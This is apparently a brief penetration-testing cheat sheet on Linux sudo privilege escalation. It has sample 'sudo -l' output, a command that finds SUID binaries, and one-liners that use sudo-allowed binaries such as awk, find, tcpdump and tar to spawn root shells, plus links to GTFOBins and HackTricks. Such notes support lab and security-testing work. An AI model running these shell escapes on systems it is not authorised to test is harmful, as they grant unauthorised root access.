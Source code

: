 # Sudo Trickery

## Enumerating Sudo Permissions

### Checking Sudo-Related Permissions

```shell-session
$ sudo -l
[sudo] password for joe:
Matching Defaults entries for joe on debian-privesc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User joe may run the following commands on debian-privesc:
    (ALL) (ALL) /usr/bin/crontab -l, /usr/sbin/tcpdump, /usr/bin/apt-get
```

### Find all SUID Binaries

```shell-session
$ find / -perm -4000 2>/dev/null #Find all SUID binaries
```

### Sneaking Commands at the end of a command

Sometimes we can slide in a shell command at the end of a command

```shell-session
$ sudo awk 'BEGIN {system("/bin/sh")}'
$ sudo find /etc -exec sh -i \;
$ sudo tcpdump -n -i lo -G1 -w /dev/null -z ./runme.sh
$ sudo tar c a.tar -I ./runme.sh a
$ ftp>!/bin/sh
$ less>! <shell_comand>
```

### GTFOBins

Check GTFOBins - a list of binaries that can be exploited to bypass local restrictions.

{% embed url="https://gtfobins.github.io/" %}

***

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid" %}
